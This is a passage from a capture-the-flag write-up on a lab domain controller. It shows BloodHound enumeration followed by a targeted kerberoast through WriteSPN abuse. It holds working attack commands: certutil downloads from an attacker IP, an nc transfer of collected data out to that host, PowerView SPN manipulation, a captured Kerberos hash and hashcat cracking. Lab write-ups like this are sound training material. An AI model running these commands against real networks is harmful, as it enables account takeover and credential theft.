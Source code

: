 ### BloodHound Enumeration
Since this is a domain controller and we are a domain user, we can run SharpHound to get more information about the users in the domain and what permissions they have.

```console
C:\Users\NU_1055> certutil -f -urlcache http://10.10.14.4:8888/SharpHound.exe %TEMP%\SharpHound.exe
C:\Users\NU_1055> %temp%\SharpHound.exe -c All --zipfilename "Bloodhound.zip"
```

We wait for the SharpHound tool to finish and then transfer the ZIP file to our machine.
```console
$ nc -l -p 4444 > Bloodhound.zip

C:\Users\NU_1055> %temp%\nc.exe -w 3 10.10.14.4 4444 < 20241109040008_Bloodhound.zip
```

It might be necessary to extract the json files from the ZIP file and converting it to a correct JSON format (using jq). Checking out our results in BloodHound, we see that the user `NU_1055` has the ability to write to the "serviceprincipalname" attribute of the user `RSA_4810`, therefore we are able to perform a targeted kerberoast attack.

![](/assets/images/writeups/blazorized/bloodhound-NU.png)

### WriteSPN Abuse
We can copy PowerView onto the host and perform the attack from Windows.

```console
PS C:\Users\NU_1055> certutil -f -urlcache http://10.10.14.4:8888/PowerView.ps1 PowerView.ps1
PS C:\Users\NU_1055> . .\PowerView.ps1

PS C:\Users\NU_1055> Set-DomainObject -Identity 'RSA_4810' -Set @{serviceprincipalname='nonexistent/BLEED'}
PS C:\Users\NU_1055> $User = Get-DomainUser 'RSA_4810'
PS C:\Users\NU_1055> $User | Get-DomainSPNTicket | fl

$krb5tgs$23$*RSA_4810$blazorized.htb$nonexistent/BLEED*$D7234985D58C1...<SNIP>...EFC94D4506EC6C26
```

We get back the `krb5tgs` hash of the RSA user and can crack it offline.

```console
$ hashcat -m 13100 RSA_4810.hash $ROCKYOU
```
